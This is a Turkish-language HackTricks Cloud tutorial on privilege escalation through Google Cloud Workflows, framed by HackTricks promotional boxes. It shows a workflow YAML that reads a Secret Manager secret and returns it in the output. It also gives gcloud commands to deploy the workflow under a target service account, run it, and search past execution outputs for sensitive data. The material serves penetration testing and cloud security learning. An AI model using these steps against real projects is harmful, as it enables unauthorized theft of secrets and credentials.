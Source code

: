 # GCP - İş Akışları Ayrıcalık Yükseltme

<details>

<summary><strong>Sıfırdan kahraman olacak şekilde AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya beni **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**'de takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## İş Akışları

Temel Bilgiler:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### Adımlarda SA izinlerini kötüye kullanma

Bildiğim kadarıyla, bir İş Akışına saldırılan SA'nın kimlik bilgilerini içeren meta veri uç noktasına erişim sağlayan bir kabuk almak mümkün değil. Ancak, SA'nın izinlerini kötüye kullanarak İş Akışı içinde gerçekleştirilecek eylemleri ekleyerek SA'nın izinlerini kötüye kullanmak mümkündür.

Bağlayıcıların belgelerini bulmak mümkündür. Örneğin, bu, [**Secretmanager bağlayıcısının sayfasıdır**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Yan çubukta birçok başka bağlayıcı bulunabilir.

Ve burada bir sırrı yazdıran bir bağlayıcı örneği bulabilirsiniz:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI üzerinden güncelleme:
```bash
gcloud workflows deploy workflow-name \
--service-account=email@SA \
--source=/path/to/config.yaml
```
Eğer web erişiminiz yoksa, bir İş Akışını tetiklemek ve yürütülmesini görmek mümkündür:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run workflow-1

# Run execution without output
gcloud workflows execute <workflow-name>

# List executions
gcloud workflows executions list workflow-1

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Hassas bilgileri aramak için önceki yürütmelerin çıktısını da kontrol edebilirsiniz
{% endhint %}

<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya beni **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** takip edin.**
* **Hacking hilelerinizi paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
